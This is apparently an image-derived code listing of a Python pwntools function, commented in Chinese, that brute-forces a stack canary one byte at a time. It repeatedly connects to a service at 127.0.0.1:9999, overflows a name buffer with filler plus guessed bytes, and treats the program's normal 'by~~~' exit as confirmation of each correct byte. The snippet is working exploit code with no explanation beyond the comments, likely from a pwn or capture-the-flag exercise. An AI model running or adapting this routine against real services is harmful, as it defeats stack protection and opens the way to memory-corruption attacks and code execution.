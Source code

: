 ```python
def canary_crack(buf_flag:int):

    canary_flag = 0x0
    #已经爆破出来的字节的canary
    canary = b""
    #用来存放尝试爆破canary当前字节的值
    canary_byte = 0
    

    while canary_flag == 0:

        try:

            #p = process()
            p = remote('127.0.0.1',9999)
            p.recvuntil(b"You Name?:")
			
            #填满到canary
            payload = b"A" * buf_flag
            #已经爆破的canary + 当前正在爆破的canary字节
            payload += canary + p8(canary_byte) 

            p.send(payload)
            result = p.clean(0.1)

            p.close()
			
            #如果没有输出by~~~则表示程序非正常退出，canary不符
            if (b"by~~~\n" in result) == False:
                canary_byte += 1
            else:
                #程序输出by~~~正常退出，当前canary爆破成功
                #将当前canary加到已经爆破的里面
                canary += p8(canary_byte)
				
                #canary的字节为8，如果已经爆破出来的canary长度达到8，则表明canary爆破完成
                if len(canary) == 8:
                    canary_flag = canary
                    break
                else:
                    canary_byte = 0

        except:

            p.close()
            canary_byte += 1
    #返回爆破的canary
    return canary_flag
```

